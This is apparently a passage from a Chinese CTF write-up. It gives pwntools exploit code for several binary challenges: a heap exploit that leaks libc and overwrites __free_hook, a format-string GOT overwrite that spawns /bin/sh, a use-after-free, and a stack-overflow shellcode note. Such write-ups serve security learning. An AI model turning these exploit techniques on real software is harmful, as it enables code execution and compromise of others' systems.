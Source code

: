```python
add(7,flat(0,0xa1)) # above 1

free(1)
show(1)
base = uu64(r(6))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
free_hook = base + libc.sym['__free_hook']

edit(4,p64(free_hook))
edit(1,p64(base+0x4526a))
free(2)
```

## easyfmt

常规的 32 位格式化字符串题，自动化测得偏移为 6，然后泄露 libc，覆盖 `printf@got` 为 `system`。

```python
ru('?\n')
def exec_fmt(payload):
    sl(payload)
    info = r()
    return info
auto = FmtStr(exec_fmt)

sl(p32(elf.got['printf']) + '%6$s')
r(4)
printf = u32(r(4))
leak('printf',printf)
base,libc,system = leak_libc('printf',printf)
sl(fmtstr_payload(auto.offset, {elf.got['printf']:system}))
sl('/bin/sh\x00')
```

## fgo

入门级堆题，直接 uaf 即可。解法可以参考 `hitcontraining_hacknote`。

```python
add(0x20)
add(0x20)
free(0)
free(1)

add(0x8,p32(elf.sym['secret']))
show(0)
```

## soEasy

存在栈溢出，给出了栈地址，checksec 发现 NX 关闭，因此直接写好 shellcode 然后返回到 shellcode 地址即可。
